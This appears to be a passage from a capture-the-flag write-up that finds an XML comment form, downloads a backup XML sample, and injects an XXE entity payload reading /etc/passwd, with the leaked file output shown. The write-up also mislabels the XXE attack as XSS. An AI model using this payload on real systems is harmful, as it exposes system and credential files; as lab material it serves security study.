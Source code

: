 ```html
            <li class="mt-auto mb-auto"><a href="auth/logout.php">Logout</a></li>
        </ul>
    </nav>

    <section id="add-comment" class="container-fluid d-flex flex-column align-items-center justify-content-center">
        <h3>Add a comment on the website.</h3>

        <form action="" method="post" class="container d-flex flex-column align-items-center justify-content-center">
            <textarea id="box" name="xml" rows="10" cols="50"></textarea><br/>
            <input type="submit" id="sub" onclick="checktarea()" value="Submit"/>
        </form>
            </section>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/js/bootstrap.bundle.min.js" integrity="sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf" crossorigin="anonymous"></script>
</body>
</html>
```
- Downloaded `/auth/dontforget.bak`  and checked filetype.
```console
❯ file dontforget.bak
dontforget.bak: XML 1.0 document, Unicode text, UTF-8 text, with very long lines (873), with CRLF line terminators
```
- This is a XML file on reading found Elements for the xss injection as it has `Name`, `Author` , and `Comment` field.
```html
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
- So this page is vulnerable to XSS injection and injected the above code to read `/etc/passwd`.
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>random</com>
</comment>
<!---------------------------------------------------------------->
<h3>Comment Preview:</h3><p>Name: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
```